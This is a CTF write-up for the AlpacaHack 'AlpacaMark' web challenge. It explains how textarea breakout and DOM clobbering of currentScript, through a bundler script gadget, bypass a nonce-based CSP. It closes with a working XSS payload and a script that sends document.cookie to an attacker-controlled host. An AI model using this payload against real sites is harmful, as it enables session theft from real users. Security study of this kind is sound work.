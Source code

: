 ---
title: 'AlpacaHackCTF-2025'
description: 'writeups for Alpaca Hack CTF WEB round 8 solo ctf'
date: 2025-05-17
image: './alpaca.png'
---

# Introduction

alpaca mark is a web client side challenge that is Simple markdown noting taking application with EJS backend.


## Unintended solution

tldr , break out of `<textarea/>` template to get html injection. [RSpack](https://github.com/advisories/GHSA-84jw-g43v-8gjm) third party package is vulnerable to Dom clobbering. 
Use the Dom clobbering to load our own script to allow the csp to get xss.


```JavaScript
app.get("/", (req, res) => {
  const nonce = crypto.randomBytes(16).toString("base64");
  res.setHeader(
    "Content-Security-Policy",
    `script-src 'strict-dynamic' 'nonce-${nonce}'; default-src 'self'; base-uri 'none'`
  );

  const markdown = req.query.markdown?.slice(0, 512) ?? DEFAULT_MARKDOWN;
  res.render("index", {
    nonce,
    markdown,
  });
});
```

Html isn't filtered so there's potential to get xss but the csp is strict and has a random nonce.
 In these kind of scenarios the only way to get xss with a random nonce csp is we have to find a script gadget that will load our own script in.

```html
 <!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width,initial-scale=1.0" />
    <title>AlpacaMark</title>
    <script nonce="<%= nonce %>" src="/main.js" defer></script>
    <link href="/main.css" rel="stylesheet" />
  </head>
  <body>
    <main class="container">
      <h1>AlpacaMark</h1>
      <div id="previewElm"></div>
      <form id="renderElm" action="/" method="get">
        <textarea name="markdown" required><%- markdown %></textarea>
        <button type="submit">Render</button>
      </form>
    </main>
  </body>
</html>
```

Since there isn't hmtl or markdown filtering we can break out of the textarea then include our own Html like this: `</textarea> html injection` . 
No need to close it since the browser will automatically do it when it renders. 

Now we have to find a script gadget which I struggled at first because I couldn't find it in the given source code. 
I noticed that the client side code uses a third party package RSpack.

```JavaScript
import { defineConfig } from "@rspack/cli";  
  
export default defineConfig({  
entry: {  
main: "./client/index.js",  
},  
experiments: {  
css: true,  
},  
devtool: false,
```

I decided to start debugging and looking through the client side code with devtools perhaps we could find a script in there. It was a bit difficult to read and debug since its minified code but I just grepped `script` and set a few breakpoints. 
we do indeed find something :  

![Alt text for the image](./devtools.png)


In main.js RSpack attempts to load a external script called `5.js` dynamically with this code :


 ```JavaScript
 ( () => {
        r.g.importScripts && (e = r.g.location + "");
        var e, t = r.g.document;
        if (!e && t && (t.currentScript && "SCRIPT" === t.currentScript.tagName.toUpperCase() && (e = t.currentScript.src),
        !e)) {
            var n = t.getElementsByTagName("script");
            if (n.length)
                for (var s = n.length - 1; s > -1 && (!e || !/^http(s?):/.test(e)); )
                    e = n[s--].src
        }
        if (!e)
            throw Error("Automatic publicPath is not supported in this browser");
        r.p = e = e.replace(/^blob:/, "").replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/")
    }
    )(),
    ```

 The end result here is to note that it automatically determines the base path where assets should be loaded from, based on the location of the currently executing script.


I thought maybe since we have dom clobbering we could use it to insert our own script but looking at this code it actually tries to stop against Dom clobbering: 

```JavaScript
(t.currentScript && "SCRIPT" === t.currentScript.tagName.toUpperCase() && (e = t.currentScript.src),
        !e)) {
            var n = t.getElementsByTagName("script");
            ```
But this isn't fully mitigated! If we clobber `currentScript` the check will fail but will then check all script tags on the page document and load scripts from the base url found in the script tags. 
Also if you look at the html source code we can see that main.js will load after our payload renders because `main.js` is loaded with `defer`. 
So essentially we can hijack `5.js `if we name our script that and once it renders , `main.js` will load after due to using `defer` then RSpack will load our script.


 a payload like this should work :

```JavaScript
</textarea><img name="currentScript"><script src="https://oursite/5.js"></script>
```

in 5.js :
```JavaScript
top.location = 'https://oursite/flag?' + document.cookie 
```

submit that to the admin bot and we should get the flag : `Alpaca{the_DOM_w0rld_is_po11uted_and_clobber3d}`

the intended solution apparently involved a prototype pollution but I'm not sure how that would work in this challenge will have to wait on the author :)